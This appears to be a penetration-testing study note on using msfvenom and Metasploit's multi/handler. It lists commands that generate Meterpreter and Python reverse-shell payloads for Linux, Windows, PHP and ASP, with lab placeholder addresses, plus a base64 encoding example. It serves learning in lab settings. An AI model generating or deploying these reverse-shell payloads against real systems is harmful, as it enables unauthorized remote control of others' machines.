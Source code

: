 ## msfconsole: To generate the payloads
- MsfVenom - a Metasploit standalone payload generator.
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- **msfvenom --list** formats command can be used to list supported output formats.

## Encoder: (can be done by msfvenom)
- eg: msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64
- with the -e parameter. The PHP version of Meterpreter was encoded in Base64

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler** to receive the incoming connection.
- 

## Other Payloads:
- Linux Executable and Linkable Format (elf) (Change Permission chmod +x shell.elf &  run this file by typing ./shell.elf)
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Windows
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP (Remove php comments to make file executable)
> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
